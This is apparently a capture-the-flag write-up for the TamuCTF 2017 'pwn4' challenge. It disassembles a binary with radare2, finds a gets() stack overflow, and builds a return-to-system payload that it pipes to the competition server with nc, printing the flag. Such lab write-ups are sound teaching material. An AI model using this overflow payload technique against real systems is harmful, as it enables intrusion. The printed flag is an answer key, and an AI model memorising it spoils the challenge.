 ```yaml
---
author:
  email: tzaoh1@gmail.com
  github: https://github.com/tzaoh
  image:
  - /images/avatar-64x64.png
  name:
  - Tzaoh
cardbackground: 'white'
cardtitlecolor: 'orange'
post_categories:
- CTFs
date: 2017-08-11T18:56:18+02:00
description: TamuCTF 2017 - pwn4
tags:
- CTF
- TamuCTF
- 2017
title: "TamuCTF 2017 - Pwn 4"
summary: "Is curious that this specific challenge had more value than the previous one. As we will see it was way easier."
cardthumbimage: "/assets/TamuCTF2017/title.png"
---
```


![Pwn4 challenge description](/assets/TamuCTF2017/pwn4/1-pwn4_description.png) 

Is curious that this specific challenge had more value than the previous one ([pwn3](../pwn3/pwn3.md)).  
As we will see below, it was way easier. Lets take a look with r2.

```bash
$ wget -q https://github.com/BlackHoods/BlackHoods.github.io/raw/master/assets/TamuCTF2017/pwn4/pwn4
$ r2 -A -c 'afl' pwn4
```

{{< highlight r2 "hl_lines=28 29 30 31" >}}
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
0x08048330    3 35           sym._init
0x08048353    1 25           fcn.08048353
0x0804836c    1 4            sub.gets_12_36c
0x08048370    1 6            sym.imp.gets
0x08048376    2 10   -> 22   fcn.08048376
0x08048380    1 6            sym.imp.puts
0x08048386    2 10   -> 22   fcn.08048386
0x08048390    1 6            sym.imp.system
0x08048396    2 10   -> 22   fcn.08048396
0x080483a0    1 6            sym.imp.__libc_start_main
0x080483a6    2 10   -> 22   fcn.080483a6
0x080483b0    1 6            sym.imp.setvbuf
0x080483b6    2 10   -> 22   fcn.080483b6
0x080483c0    1 1            sub.__gmon_start___252_3c0
0x080483c1    1 15           fcn.080483c1
0x080483d0    1 33           entry0
0x080483f1    1 1            fcn.080483f1
0x08048400    1 4            sym.__x86.get_pc_thunk.bx
0x08048410    4 43           sym.deregister_tm_clones
0x0804843c    4 57           fcn.0804843c
0x08048475    3 41           fcn.08048475
0x080484a0    8 43   -> 93   sym.frame_dummy
0x080484cb    1 25           sym.flag_func
0x080484e4    1 25           sym.func2
0x080484fd    1 24           sym.func1
0x08048515    1 71           sym.main
0x08048560    4 93           sym.__libc_csu_init
0x080485bd    1 5            fcn.080485bd
0x080485c2    1 22           fcn.080485c2
{{< /highlight >}}

We can see four interesting functions:

{{< highlight r2 "hl_lines=10 12 41 71" >}}
[0x080483d0]> s sym.flag_func; Vp
[0x080484cb 16% 240 pwn4]> pd $r @ sym.flag_func                         
┌ (fcn) sym.flag_func 25
│   sym.flag_func ();
│           0x080484cb      55             push ebp
│           0x080484cc      89e5           ebp = esp                       
│           0x080484ce      83ec08         esp -= 8                     
│           0x080484d1      83ec0c         esp -= 0xc                 
│         ; "/bin/cat flag2.txt"        
│           0x080484d4      68e0850408     push str._bin_cat_flag2.txt
│         ; int system(const char *string) ; sym.imp.system
│           0x080484d9      e8b2feffff     sym.imp.system ()
│           0x080484de      83c410         esp += 0x10
│           0x080484e1      90                                   
│           0x080484e2      c9                                   
└           0x080484e3      c3                                     
┌ (fcn) sym.func2 25                                             
│   sym.func2 ();                                                
│           0x080484e4      55             push ebp              
│           0x080484e5      89e5           ebp = esp             
│           0x080484e7      83ec08         esp -= 8              
│           0x080484ea      83ec0c         esp -= 0xc            
│           0x080484ed      68f3850408     push str.Nothing_to_see_here
│         ; int puts(const char *s)                      
│           0x080484f2      e889feffff     sym.imp.puts ()
│           0x080484f7      83c410         esp += 0x10
│           0x080484fa      90                                               
│           0x080484fb      c9                                   
└           0x080484fc      c3                                   
┌ (fcn) sym.func1 24
│   sym.func1 ();
│           ; var int local_ch @ ebp-0xc
│              ; CALL XREF from 0x0804854a (sym.main)
│           0x080484fd      55             push ebp
│           0x080484fe      89e5           ebp = esp
│           0x08048500      83ec18         esp -= 0x18
│           0x08048503      83ec0c         esp -= 0xc
│           0x08048506      8d45f4         eax = [local_ch]
│           0x08048509      50             push eax
│         ; char*gets(char *s)
│           0x0804850a      e861feffff     sym.imp.gets ()           
│           0x0804850f      83c410         esp += 0x10
│           0x08048512      90                        
│           0x08048513      c9                        
└           0x08048514      c3                          
┌ (fcn) sym.main 71         
│   sym.main ();
│           ; var int local_4h_2 @ ebp-0x4
│           ; var int local_4h @ esp+0x4
│              ; DATA XREF from 0x080483e7 (entry0)
│           0x08048515      8d4c2404       ecx = [local_4h]
│           0x08048519      83e4f0         esp &= 0xfffffff0
│           0x0804851c      ff71fc         push dword [ecx - 4]
│           0x0804851f      55             push ebp
│           0x08048520      89e5           ebp = esp
│           0x08048522      51             push ecx
│           0x08048523      83ec04         esp -= 4
│           0x08048526      a13ca00408     eax = dword obj.stdout
│           0x0804852b      6a00           push 0
│           0x0804852d      6a00           push 0
│           0x0804852f      6a02           push 2
│           0x08048531      50             push eax
│         ; int setvbuf(FILE*stream, char*buf, int mode, size_t size)
│           0x08048532      e879feffff     sym.imp.setvbuf ()
│           0x08048537      83c410         esp += 0x10
│           0x0804853a      83ec0c         esp -= 0xc
│           0x0804853d      6807860408     push str.I_require_an_input:
│         ; int puts(const char *s)
│           0x08048542      e839feffff     sym.imp.puts ()
│           0x08048547      83c410         esp += 0x10
│           0x0804854a      e8aeffffff     sym.func1 ()
│           0x0804854f      b800000000     eax = 0
│           0x08048554      8b4dfc         ecx = dword [local_4h_2]
│           0x08048557      c9                                     
│           0x08048558      8d61fc         esp = [ecx - 4]
└           0x0804855b      c3                                               
{{< /highlight >}}

> By the way the command `s sym.flag_func; Vp` can be splitted and explained like this:  
> `s sym.flag_func` - set the position of the cursor at the beginning of the function.  
> `V` - change the visual mode.  
> `p` - change mode view.

Here they are, lets take a look at those functions.

Obviously we should try to execute `sym.flag_func()` function, it seems it will try print a file called `flag2.txt` (strange name right? why 2?) using the `cat` command on the remote server. But that function is never called. You can check it by yourself with:
```r2
[0x080484f7]> axt sym.flag_func
```

Then we need to dig a bit more.

1. `sym.func2()` is just printing a message (it even tells you not to waste your time with it). So we can ignore this one.

2. `sym.func1()` is a bit more interesting because it is using the unsecure function `gets()`. If it is called somewhere, we would be able to overwrite the `$eip` register.

3. We dont need to cross our fingers a lot of time because we fastly see that `sym.func1()` is being called from `main()`! yay! :v: .

Lets figure out, how many bytes do we need to overwrite `$eip` register.
```bash
$ pwn cyclic 40 ; To generate string with unique subsequences.
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa
$ r2 -R "stdin=\"`pwn cyclic 40`\"" -A -d -c 'dc' pwn4
```
{{< highlight r2 "hl_lines=18 19" >}}
Process with PID 12102 started...
= attach 12102 12102
bin.baddr 0x08048000
Using 0x8048000
Assuming filepath /root/pwn4
asm.bits 32
[x] Analyze all flags starting with sym. and entry0 (aa)
TODO: esil-vm not initialized
[Cannot determine xref search boundariesr references (aar)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
ptrace (PT_ATTACH): Operation not permitted
= attach 12102 12102
I require an input:
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x61616165 code=1 ret=0
[0x61616165]>
{{< /highlight >}}

```bash
$ pwn cyclic -l 0x61616165
16
```

So, we can overwrite the `$eip` register writing the next 4 bytes (from byte 17 to 20)!  
Now we create a file with the previously commented file (`flag2.txt`) to try this out.

{{< highlight bash "hl_lines=4" >}}
$ echo This is the flag > flag2.txt
$ python -c 'print("A"*16 + "\xcb\x84\x04\x08")' | ./pwn4
I require an input:
This is the flag
Segmentation fault
{{< /highlight >}}

Good! what will the remote server say?
```bash
$ python -c 'print("A"*16 + "\xcb\x84\x04\x08")' | nc pwn.ctf.tamu.edu 4324
I require an input:                                                                              Did you really think it would be that easy?
```

Ouch! that file was just a decoy. There must be a another one named `flag.txt` waiting for us.
> But how could we executed it? There is only one function which print a file and its name is hardcoded.

Well, that is not a problem, because there is a call to `system()`.
The only thing we need to do is to pass a different argument: `cat flag.txt` instead of `cat flag2.txt`.

If you inspect all the strings of the binary you may find surprise:

{{< highlight r2 "hl_lines=5" >}}
[0x61616165]> iz
vaddr=0x080485e0 paddr=0x000005e0 ordinal=000 sz=19 len=18 section=.rodata type=ascii string=/bin/cat flag2.txt
vaddr=0x080485f3 paddr=0x000005f3 ordinal=001 sz=20 len=19 section=.rodata type=ascii string=Nothing to see here
vaddr=0x08048607 paddr=0x00000607 ordinal=002 sz=20 len=19 section=.rodata type=ascii string=I require an input:
vaddr=0x0804a028 paddr=0x00001028 ordinal=000 sz=18 len=17 section=.data type=ascii string=/bin/cat flag.txt
{{< /highlight >}}

As you may know, in order to pass the arguments to `system` they need to be pushed into the stack. In case of a string not its value but its reference (a pointer `0x0804a028` in this case).

Because we can overwrite the stack we can "imitate" a push into it:

1. Instead of starting in the address of `sym.flag_func()` (`0x080484cb`) we will use `system()` one (`0x080484d9`).  
`$ python -c 'print("A"*16 + "\xd9\x84\x04\x08")'`

2. We need to push the pointer to the string to indicate `system()` which is its argument.  
`$ python -c 'print("A"*16 + "\xd9\x84\x04\x08" + "\x28\xa0\x04\x08")'`

Lets send to the server:
```bash
$ python -c 'print("A"*16 + "\xd9\x84\x04\x08" + "\x28\xa0\x04\x08")' | nc pwn.ctf.tamu.edu 4324
I require an input:
gigem{R3TURN_0R13NT3D_PR0F1T}
```

Answer: gigem{R3TURN_0R13NT3D_PR0F1T}

### Complete video
<a href="https://asciinema.org/a/drr8rhjxvoqpmu6ke8czn6hwf?autoplay=1" target="_blank"><img src="https://asciinema.org/a/drr8rhjxvoqpmu6ke8czn6hwf.png" /></a>


### Tools used and some references:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [pwntools](https://github.com/Gallopsled/pwntools) and [cyclic](http://docs.pwntools.com/en/stable/util/cyclic.html#pwnlib.util.cyclic.cyclic) - To generate unique substrings.
 * [asciinema](https://asciinema.org) - To record the session.
